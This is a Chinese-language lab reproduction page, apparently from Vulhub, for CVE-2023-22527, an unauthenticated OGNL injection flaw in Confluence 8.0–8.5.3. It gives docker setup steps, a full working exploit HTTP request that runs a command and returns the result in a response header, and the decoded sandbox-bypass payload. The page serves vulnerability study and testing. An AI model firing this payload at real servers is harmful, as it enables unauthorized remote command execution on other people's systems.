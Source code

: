 # Atlassian Confluence OGNL 表达式注入命令执行漏洞 CVE-2023-22527

## 漏洞描述

Atlassian Confluence 是企业广泛使用的 wiki 系统。

在 Confluence 8.0 到 8.5.3 版本之间，存在一处由于任意 velocity 模板被调用导致的 OGNL 表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击 Confluence 服务器并执行任意命令。

参考链接：

- [https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html](https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html)
- [https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/](https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/)

## 环境搭建

Vulhub 执行如下命令启动一个 Confluence Server 8.5.3：

```
docker compose up -d
```

环境启动后，访问 `http://your-vps-ip:8090` 即可进入安装向导。点击“Get an evaluation license”，去 Atlassian 官方申请一个 Confluence Server 的试用版许可证，申请方法可参考 [CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)。

在填写数据库信息的页面，PostgreSQL 数据库地址为 `db`，数据库名称 `confluence`，用户名密码均为 `postgres`。

![](images/Atlassian%20Confluence%20OGNL表达式注入命令执行漏洞%20CVE-2023-22527/image-20240226144953603.png)

## 漏洞复现

直接发送如下请求即可执行任意命令，并在 HTTP 返回头中获取执行结果：

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: your-vps-ip:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![](images/Atlassian%20Confluence%20OGNL表达式注入命令执行漏洞%20CVE-2023-22527/image-20240614134238188.png)

在 Confluence 7.18.0 版本后，官方开发者为其引入了 `isSafeExpression` 函数来限制执行恶意 OGNL 表达式。安全研究者 [Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/) 分享了一种利用 velocity 模板中的 `#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)` 来获取无沙箱的 OGNL 对象并执行任意语句的绕过方法，完整并解码后的 Payload 如下：

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
